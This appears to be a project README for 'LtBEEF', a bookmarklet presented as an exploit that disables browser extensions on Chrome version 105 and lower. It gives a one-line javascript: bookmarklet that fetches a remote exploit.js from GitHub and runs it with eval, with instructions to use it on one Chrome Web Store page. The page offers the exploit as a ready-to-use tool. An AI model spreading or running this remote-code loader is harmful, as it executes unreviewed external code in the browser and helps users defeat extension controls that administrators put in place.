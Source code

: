 ```yaml
---
title: "LtBEEF"
---
```


LtBEEF (Literally the Best Exploit Ever Found) is a bookmarklet utility that allows you to disable extensions on v105 or lower. To use it, copy and paste the below text into a new bookmark:

```
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
```

This bookmarklet can only be run on [this specific page](https://chrome.google.com/webstorex) due to the nature of the exploit.